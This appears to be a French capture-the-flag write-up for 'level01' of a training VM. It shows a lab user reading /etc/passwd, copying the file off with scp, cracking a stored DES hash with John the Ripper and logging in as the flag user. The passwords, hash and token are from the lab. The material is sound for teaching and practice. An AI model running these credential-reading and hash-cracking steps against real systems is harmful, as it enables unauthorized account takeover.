 # Level01

Se connecter en tant que `level01`:

    $ ssh 192.168.1.124 -p 4242 -l level01
    level01@192.168.1.124's password: x24ti5gi3x0ol2eh4esiuxias

---

Qui suis-je ?

	$ id
	uid=2001(level01) gid=2001(level01) groups=2001(level01),100(users)

Où suis-je ?

	$ pwd
	/home/user/level01

	$ ls -la
	total 12
	dr-x------ 1 level01 level01  100 Mar  5  2016 .
	d--x--x--x 1 root    users    340 Aug 30  2015 ..
	-r-x------ 1 level01 level01  220 Apr  3  2012 .bash_logout
	-r-x------ 1 level01 level01 3518 Aug 30  2015 .bashrc
	-r-x------ 1 level01 level01  675 Apr  3  2012 .profile

Mes fichiers / Les fichiers du user cible

	$ find / -user level01
	(nothing)
	$ find / -user flag01
	(nothing)

Rien

***********************************************************

Casser le mot de passe du user ?

	$ ls -l /etc/shadow
	-rw-r----- 1 root shadow 4428 Mar  6  2016 /etc/shadow
	(no permissions)

	$ ls -l /etc/passwd
	-rw-r--r-- 1 root root 2477 Mar  5  2016 /etc/passwd
	(permissions good)

	$ cat /etc/passwd
	...
	flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
	...
	(there is one hashed password inside just for the user ... flag01)

On va download le fichier et le casser avec John The Ripper

	$ scp -P 4242 level01@192.168.1.124:/etc/passwd .

#### [`john`](https://www.varonis.com/blog/john-the-ripper/) - un outil pour trouver les mots de passe faibles des utilisateurs

Container Docker Kali linux avec en volume le fichier passwd

	$ docker run --rm --privileged -v `pwd`:/Ressources -ti kalilinux/kali-rolling /bin/bash
	$ apt update && apt install john -y
	$ cd /Ressources
	$ john passwd
	...
	abcdefg          (flag01)
	...
	$ john --show passwd
	flag01:abcdefg:3001:3001::/home/flag/flag01:/bin/bash    

On a le `mdp` du flag01

	$ su flag01
	password: abcdefg
	$ getflag
	Check flag.Here is your token : f2av5il02puano7naaf6adaaf
	
